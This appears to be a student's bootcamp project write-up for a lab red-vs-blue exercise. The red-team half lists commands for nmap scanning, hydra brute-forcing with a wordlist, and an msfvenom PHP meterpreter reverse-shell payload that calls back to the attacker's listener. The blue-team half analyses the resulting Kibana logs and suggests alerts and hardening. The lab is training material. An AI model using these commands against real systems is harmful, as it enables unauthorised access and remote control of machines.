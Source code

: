 # UCLA Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:

1.	Identify the offensive traffic.

○	Identify the traffic between your machine and the web machine:

	■	When did the interaction occur?

		The interaction occurred on 2021-12-14 03:00

	■	What responses did the victim send back?

		200, 207, 401, 404, 206, 304, 301

	■	What data is concerning from the Blue Team perspective?

		The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.

	■	How many requests were made to this directory? At what time and from which IP address(es)?

		There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

	■	Which files were requested? What information did they contain?

		The file that was requested is the reverse_shell.php file

	■	What kind of alarm would you set to detect this behavior in the future?

		To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
	
	■	Can you identify packets specifically from Hydra?

		Yes, by searching the ‘user_agent.original” field. 

	■	How many requests were made in the brute-force attack?

		There were 16,711 requests
 
	■	How many requests had the attacker made before discovering the correct password in this one?

		It appears that there were 16,711 requests before the correct password was discovered.
 

	■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

		I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
	
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:

	■	How many requests were made to this directory?

		209 requests were made to the 192.168.1.105/webdav/ directory.
 

	■	Which file(s) were requested?

		XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

	■	What kind of alarm would you set to detect such access in the future?

		An alarm to alert the SOC of any PROPFIND requests for Webdav.

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
	
	■	Can you identify traffic from the meterpreter session?
 
		There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 

	■	What kinds of alarms would you set to detect this behavior in the future?
		
		An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
